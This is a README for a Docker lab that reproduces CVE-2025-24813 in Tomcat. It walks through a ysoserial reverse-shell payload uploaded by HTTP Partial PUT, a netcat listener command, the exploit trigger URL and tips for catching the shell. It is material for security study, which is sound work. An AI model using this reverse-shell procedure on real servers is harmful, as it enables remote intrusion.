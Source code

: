 ```yaml
---
tags: [tomcat, cve-2025-24813, java, rce, reverse-shell, lab]
title: 🧪 CVE-2025-24813 Tomcat RCE Lab (Docker + ysoserial)
---
```


🧪 **CVE-2025-24813 Tomcat RCE Lab (Docker + ysoserial)**

This lab demonstrates remote code execution via unsafe Java deserialization in a Tomcat-hosted app that processes serialized session files. The full environment runs in Docker with a crafted reverse shell payload delivered via a Partial PUT request.

---

📁 **Directory Layout**

```
.
├── 0-run-tomcat.sh        # Build + run vulnerable Tomcat container
├── 1-generate-revshell.sh # Start Netcat reverse shell listener
├── 2-generate-payload.sh  # Generate ysoserial reverse shell payload
├── 3-upload-file.sh       # Upload serialized payload via Partial PUT
├── 4-exploit.sh           # Trigger deserialization endpoint
├── readme.md              # This file
├── source.sh              # Sets CALLBACK_IP, LISTENER_PORT, etc
├── dummy-app/
│   ├── src/
│   │   └── main/java/com/example/DeserializeServlet.java
│   ├── pom.xml
│   └── Dockerfile
```

---

⚙️ **Prerequisites**

Install Java and Netcat:

```
brew install openjdk netcat
```

Ensure you’re using JDK 11+ and allow unsafe module access via `--add-opens`.

---

🧨 **Exploit Flow**

1. 🛠 Build and run vulnerable Tomcat  
2. 🐚 Start reverse shell listener  
3. 💣 Generate ysoserial payload (`CommonsBeanutils1`)  
4. 📤 Upload payload using HTTP Partial PUT  
5. 🎯 Trigger deserialization and catch shell  

---

🧪 **Usage**

### 1. Build and run vulnerable Tomcat

```
bash 0-run-tomcat.sh
```

---

### 2. Set environment variables

Create a `source.sh` file like this:

```
export CALLBACK_IP="your.lan.ip"
export LISTENER_PORT=4444
export PAYLOAD_FILE="rev_shell.ser"
export TARGET_URL="http://localhost:8080/xxx-api/gopan.session"
export CHUNK_SIZE=100
```

Then source it:

```
source source.sh
```

---

### 3. Start reverse shell listener

In a separate terminal:

```
bash 1-generate-revshell.sh
```

This runs:

```
nc -lnvp 4444
```

---

### 4. Generate the payload

```
bash 2-generate-payload.sh
```

This will:

- Download `ysoserial.jar` if needed  
- Generate a `CommonsBeanutils1` payload with reverse shell  
- Save it as `rev_shell.ser`  

---

### 5. Upload the payload

```
bash 3-upload-file.sh
```

This script performs an HTTP Partial PUT upload in chunks using `Content-Range` headers.

---

### 6. Trigger the exploit

```
bash 4-exploit.sh
```

This hits:

```
http://localhost:8080/xxx-api/profile
```

Which deserializes the uploaded file and executes the payload.

> ✅ You’ll get a reverse shell in the Netcat terminal!

---

🔍 **Debugging**

Inside the container:

```
docker exec -it vulnerable-tomcat bash
cd /usr/local/tomcat/webapps/xxx-api/
ls -l
```

Check if the file `/tmp/beanutils-worked` exists if testing with a safe payload.

---

💡 **Notes**

- Payloads require `--add-opens` to bypass module restrictions in Java 11+
- Reverse shell might fail silently if `/bin/bash` isn’t available (try `/bin/sh`)
- You can safely test code execution with: `touch /tmp/rce-worked`

---

🧱 **Based On**

- [frohoff/ysoserial](https://github.com/frohoff/ysoserial)
- Apache Tomcat 9.x
- Java deserialization exploit chains (CommonsBeanutils1)

---
